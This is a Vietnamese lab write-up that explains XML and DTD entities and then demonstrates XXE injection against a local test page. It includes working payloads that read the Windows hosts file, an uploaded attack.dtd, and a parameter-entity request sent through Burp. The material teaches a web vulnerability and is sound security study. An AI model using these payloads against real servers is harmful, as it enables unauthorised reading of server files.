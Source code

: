 Người thực hiện: Lê Trần Văn Chương.

Thời gian: 11/05/2020.

Mục lục:
- [XML external entity (XXE) injection](#xml-external-entity-xxe-injection)
- [Lab](#lab)

## XML external entity (XXE) injection 
- XML (Extensible Markup Language) được thiết kế với mục đích lưu trữ, truyền dữ liệu và cả người lẫn "máy" đều có thể đọc được.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>test</user>
    <pass>mypass</pass>
</creds>
```
Dòng đầu tiên là Khai báo XML (XML declaration), nó nên có chứ không bắt buộc phải có. Ở phần thân, cứ một cặp thẻ mở-đóng trong XML tạo thành một phần tử, và các phần tử này lồng nhau tạo nên cấu trúc dạng cây.

- XML external entity (XXE) injection là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng. Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của máy chủ ứng dụng và tương tác với bất kỳ hệ thống bên ngoài hoặc bên trong nào mà chính ứng dụng có thể truy cập.
- Một số ứng dụng sử dụng định dạng XML để truyền dữ liệu giữa trình duyệt và máy chủ. Các ứng dụng thực hiện điều này hầu như luôn sử dụng thư viện chuẩn hoặc API nền tảng để xử lý dữ liệu XML trên máy chủ. Các lỗ hổng XXE phát sinh do đặc tả XML chứa nhiều tính năng nguy hiểm tiềm ẩn khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.
- `DTD (document type definitions)` - nghĩa là DTD dùng để "định nghĩa loại tài liệu" thông qua việc xác định cấu trúc cũng như chỉ ra format hợp lệ của các elements và attributes trong file xml. Nếu DTD được định nghĩa luôn bên trong file xml, nó được gọi là Internal DTD. Còn ví dụ dưới đây là ví dụ về một External DTD. Tức là bản thân DTD là một file, nằm ngoài file xml. 
- `DTD Entity` hiểu đơn giản DTD Entity giống như những biến trong lập trình.
- `External Entity` Để xử lý được file xml, mọi ứng dụng đều cần phải có một XML parser (còn được gọi là XML processor) để xử lý file xml và đưa ra output. Khi chúng ta khai báo một entity, parser sẽ tự động thay thế giá trị của entity vào nơi entity được khi báo.
## Lab
- Trang dưới đây nó sẽ in ra element `user` của xml.
![Hình 1.](~/../img/1.png)

- Tôi sẽ thử chèn thêm đoạn code sau `<!DOCTYPE foo [ <!ENTITY xxe "ASDASD"> ]>` vào xml và giá trị `user` tôi sẽ thay bằng `&xxe;` để hiện kết quả lên (hình dưới).
    - `DOCTYPE foo` - Xác định rằng phần tử gốc của tài liệu là `foo`.
    - `ENTITY xxe` - Nó sẽ giống như biến trong lập trình và biến này có tên là `xxe`.
    - Để gọi biến trong element thì ta sử dụng cú pháp `&tên-biến;` ở đây là `&xxe;`. Đây là `External Entity`
![Hình 2.](~/../img/2.png)

- Tiếp theo, tôi sẽ chèn thêm đoạn code sau `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">]>` - (nghĩa là trỏ đến tệp hosts của system bên ngoài và lấy dữ liệu của nó ra và đẩy lên element `user`). Kết quả (hình dưới).
![Hình 3.](~/../img/3.png)

- Tiếp theo, tôi sẽ sẽ tạo 1 file `attack.dtd` có nội dung như phía dưới và upload nó lên web:
```DTD
<?xml version="1.0" encoding="UTF-8"?>
    <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
```

- Tôi sẽ dùng Burp để có thể chèn đoạn xml sau vào để gọi file `attack.dtd` ra và chạy nó để in ra data của file hosts. Trong đây, có thể thấy tôi dùng `% remote` đây là 1 thực thể tham số xml rất đặc biệt và chúng ta có thể được tham chiếu chúng ở những nơi khác trong DTD. Còn `%remote;` ở phía dưới mục đích là thực hiện dòng lệnh `% remote` ở phía trên. Kết quả như hình phía dưới.
```xml
<!DOCTYPE foo [<!ENTITY % remote SYSTEM "http://localhost/XML/uploads/attack.dtd">
    %remote;
    ]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
![Hình 4.](~/../img/4.png)




